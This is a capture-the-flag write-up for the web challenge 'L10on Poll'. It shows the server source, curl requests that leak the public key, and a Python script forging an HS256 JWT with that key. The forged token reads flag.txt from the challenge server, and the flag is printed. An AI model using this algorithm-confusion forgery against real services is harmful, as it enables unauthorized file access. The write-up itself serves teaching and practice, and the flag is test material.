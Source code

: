 # L10on Poll | Web

### Solution

From ctf we have got url to website, package.json and server.ts

##### server.js

```js
import Koa from 'koa';
import koaStatic from 'koa-static';
import Router from '@koa/router';
import jwt from 'jsonwebtoken';
import {readFileSync} from 'fs';
import {fileURLToPath} from 'url';
import {dirname, join} from 'path';
import bodyParser from 'koa-bodyparser';
import send from 'koa-send';

const __dirname = dirname(fileURLToPath(import.meta.url));

let yesVotes = 0;
let noVotes = 0;

const privateKey = readFileSync(join(__dirname, "key.priv"), "utf8");
const publicKey = readFileSync(join(__dirname, "key"), "utf8");
const msgs = readFileSync(join(__dirname, "errormessages"), "utf8").split("\n").filter(s => s.length > 0);
/** @type {import("./languages.json")} */
const languages = JSON.parse(readFileSync(join(__dirname, "languages.json"), "utf8"));

const languageRegex = /^[a-z]+$/;

const app = new Koa();
const router = new Router();

/**
 * @param {string} language
 * @returns {string}
 */
function generateToken(language) {
    return jwt.sign({language}, privateKey, {algorithm: "RS256"});
}

router.get("/localisation-file", async ctx => {
    const token = ctx.cookies.get("lion-token");
    /** @type {string} */
    let language;
    if (token) {
        const payload = await new Promise((resolve, reject) => {
            try {
                jwt.verify(token, publicKey, (err, result) => err ? reject(err) : resolve(result));
            } catch (e) {
                reject(e);
            }
        });
        language = payload.language;
    } else {
        language = languages[Math.floor(Math.random() * languages.length)].id;
        ctx.cookies.set("lion-token", generateToken(language));
    }
    await send(ctx, language, {root: __dirname});
});

router.post("/localization-language", async ctx => {
    const language = ctx.request.body?.language;
    if (typeof language === "string") {
        if (language.match(languageRegex)) {
            ctx.cookies.set("lion-token", generateToken(language));
        } else {
            ctx.throw(400, msgs[Math.floor(Math.random() * msgs.length)]);
        }
    } else {
        ctx.throw(400, "no language");
    }
    ctx.redirect("/");
});

router.get("/languages", async ctx => {
    ctx.body = languages;
});

router.post("/y", async ctx => {
    yesVotes++;
    ctx.body = [yesVotes, noVotes];
});

router.post("/n", async ctx => {
    noVotes++;
    ctx.body = [yesVotes, noVotes];
});

app.use(bodyParser());
app.use(router.routes());
app.use(router.allowedMethods());
app.use(koaStatic(join(__dirname, "../public")));
app.listen(1337);
```

##### package.json

```json
{
  "dependencies": {
    "@koa/router": "^10.0.0",
    "jsonwebtoken": "^3.2.2",
    "koa": "^2.13.1",
    "koa-bodyparser": "^4.3.0",
    "koa-send": "^5.0.1",
    "koa-static": "^5.0.0"
  },
  "type": "module",
  "scripts": {
    "start": "node server.js"
  }
}
```

To get the flag we need to read the content of a flag.txt from server. That give us the hint that we need to search for some way to read any file from server. Website have `select language` functionality. 
After quick look at source code of server.js we can see that information about selected language is stored in cookie as a JWT. In this case to create signature of JWT server use private key and to verify it layer - public key.<br /><br />

Further, in the code we can see subpage `/localization-language` that apparently allow us to select our language and return JWT signed with private key.<br />
Next subpage that is worth attention is `/localisation-file`, because with use of it we can download file with translations for all provided languages.

```bash
$ curl "http://web.bcactf.com:49159/localization-language" -X POST -H "Content-Type:application/json" --data-raw '{"language": "key"}' -c cookie.txt
```

With command above I sent post request and in return I have got signed JWT with selected language as "*key*". Request with created JWT to `/localisation-file` allowed me to download file specified in *language* parameter.

```bash
$ curl "http://web.bcactf.com:49159/localisation-file" --cookie "lion-token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJsYW5ndWFnZSI6ImtleSIsImlhdCI6MTYyMzY4MjQwMX0.Dyrr6Z3wWz2pmU5UeY1Xool2LSu5AG8D7tg_N-g8jFtGypXTvLYzQ4fWvmdbkT2S6oL5ptGvlo-8SugaxmX07Gr2Av4aOHnJahIoaCG6zRSqkYIrANJLjPM-qbX3cEvJZSG2ElC9sW6GKBzFTpIqziSZPUyt_NPn3dBKgW3jxrE"
```

This request resulted with server public key:

```txt
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCRaHtUpvSkcf2KCwXTiX48Tjxf
bUVFn7YimqGPQbwTnE0WfR5SxLK/DH0os9jCCeb7pJ08AbHFBzQNUfbg47xI3aJh
PMdjL/w3iqfc56C7lt59u4TeOYc7kguph/GTYDPDZkgtbkFJmbkbg9MvV723U1PW
M7N2P4b2Xf3p7ZtaewIDAQAB
-----END PUBLIC KEY-----
```

We can't download any file with character other than lower case a-z, because of regex in `/localisation-language`, but if we could skip this step and sign JWT by our self this would not be a problem. So I start searching.
On [jwt.io](https://jwt.io) website, below token editor, I found yellow, warning rectangle with link to [this article](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/) about vulnerabilities in JWT token with asymmetric keys.<br /><br />

In article I read about vulnerability in old version of JWT that mislaid decoder that token was encoded not with rsa key, but with password. 
Because of that I could encode my own JWT with language parameter as a `flag.txt` and
encode it with public key. In this case server will try to verify my token by decoding it with provided to function password - public key.<br /><br />

With that knowledge I wrote small python script to generate JWT:

```py
import jwt

with open("key.pub", "r") as f:
    secret = f.read()

encoded_jwt = jwt.encode({"language": "flag.txt", "iat": "1623478547"}, secret, algorithm="HS256")
print(encoded_jwt)
```
Generated JWT:
```txt
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsYW5ndWFnZSI6ImZsYWcudHh0IiwiaWF0IjoiMTYyMzQ3ODU0NyJ9.wk7fc3wR1gU4cIRs2ZXT0FYC0gLaN0EWkNpyfIWUlpg
```


### Flag

bcactf{h3_c0mes_Ur74hshR}

#### Credits

- Writeup by [HuntClauss](https://ctftime.org/user/106464)
- Solved by [HuntClauss](https://ctftime.org/user/106464)
- WaletSec 2021

#### License

**CC BY 4.0** WaletSec + HuntClauss